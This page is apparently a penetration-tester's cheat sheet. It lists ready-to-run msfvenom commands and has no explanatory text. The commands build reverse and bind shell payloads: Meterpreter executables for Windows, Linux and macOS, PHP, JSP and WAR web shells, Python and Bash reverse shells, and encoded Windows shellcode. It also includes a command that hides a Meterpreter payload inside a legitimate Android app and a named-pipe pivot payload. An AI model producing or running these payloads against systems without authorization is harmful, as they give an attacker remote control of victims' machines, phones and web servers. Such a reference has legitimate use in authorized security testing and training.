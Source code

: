 ```yaml
---
cover: ../../.gitbook/assets/Standard Banner.jpg
coverY: 0
---
```


# MSFVenom

#### Windows Meterpreter Staged Reverse TCP (x64)

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Meterpreter Stageless Reverse TCP (x64)

`msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Staged Reverse TCP (x64)

`msfvenom -p windows/x64/reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Stageless Reverse TCP (x64)

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Linux Meterpreter Staged Reverse TCP (x64)

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f elf -o reverse.elf`

#### Linux Meterpreter Stageless Reverse TCP (x64)

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f elf -o reverse.elf`

#### Windows Bind TCP ShellCode - BOF

`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '' -f python -v notBuf -o shellcode`

#### macOS Meterpreter Staged Reverse TCP (x64)

`msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### macOS Meterpreter Stageless Reverse TCP (x64)

`msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### macOS Stageless Reverse TCP (x64)

`msfvenom -p osx/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### php Meterpreter Stageless Reverse TCP

`msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f raw -o shell.php`

#### php Reverse PHP

`msfvenom -p php/reverse_php LHOST=<ip address> LPORT=<port> -o shell.php`

#### jsp Stageless Reverse TCP

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f raw -o shell.jsp`

#### WAR Stageless Reverse TCP

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f war -o shell.war`

#### Android Meterpreter Reverse TCP

`msfvenom --platform android -p android/meterpreter/reverse_tcp lhost=<ip address> lport=<port> R -o malicious.apk`

#### Android Meterpreter Embed Reverse TCP

`msfvenom --platform android -x template-app.apk -p android/meterpreter/reverse_tcp lhost=<ip address> lport=<port> -o payload.apk`

#### Python Stageless Reverse TCP

`msfvenom -p cmd/unix/reverse_python LHOST=<ip address> LPORT=<port> -f raw -o shell.py`

#### Bash Stageless Reverse TCP

`msfvenom -p cmd/unix/reverse_bash LHOST=<ip address> LPORT=<port> -f raw -o shell.sh`

#### Pivot

`msfvenom -p windows/meterpreter/reverse_named_pipe PIPEHOST=<ip address> PIPENAME=<name-of-pipe> -f exe -o <output file>`
